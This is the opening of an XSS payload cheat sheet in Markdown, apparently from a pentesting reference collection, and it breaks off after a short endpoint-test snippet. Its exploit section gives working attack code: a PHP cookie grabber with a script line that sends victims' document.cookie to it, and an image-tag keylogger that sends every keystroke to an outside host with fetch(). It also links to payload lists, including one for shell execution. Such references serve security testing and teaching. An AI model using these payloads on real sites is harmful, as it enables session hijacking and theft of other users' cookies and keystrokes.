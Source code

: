 # Cross Site Scripting

Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users.

- [Exploit code or POC](#exploit-code-or-poc)
- [Identify an XSS endpoint](#identify-an-xss-endpoint)
- [XSS in HTML/Applications](#xss-in-htmlapplications)
- [XSS in wrappers javascript and data URI](#xss-in-wrappers-javascript-and-data-uri)
- [XSS in files](#xss-in-files)
- [Polyglot XSS](#polyglot-xss)
- [Filter Bypass and Exotic payloads](#filter-bypass-and-exotic-payloads)
- [Common WAF Bypas](#common-waf-bypass)

## Exploit code or POC

Cookie grabber for XSS

```php
<?php
// How to use it
# <script>document.location='http://localhost/XSS/grabber.php?c=' + document.cookie</script>

// Write the cookie in a file
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie.'\r\n');
fclose($fp);

?>
```

Keylogger for XSS

```html
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```

More exploits at [http://www.xss-payloads.com/payloads-list.html?a#category=all](http://www.xss-payloads.com/payloads-list.html?a#category=all):

- [Taking screenshots using XSS and the HTML5 Canvas](https://www.idontplaydarts.com/2012/04/taking-screenshots-using-xss-and-the-html5-canvas/)
- [JavaScript Port Scanner](http://www.gnucitizen.org/blog/javascript-port-scanner/)
- [Network Scanner](http://www.xss-payloads.com/payloads/scripts/websocketsnetworkscan.js.html)
- [.NET Shell execution](http://www.xss-payloads.com/payloads/scripts/dotnetexec.js.html)
- [Redirect Form](http://www.xss-payloads.com/payloads/scripts/redirectform.js.html)
- [Play Music](http://www.xss-payloads.com/payloads/scripts/playmusic.js.html)

## Identify an XSS endpoint

```javascript
<script>debugger;</script>
```
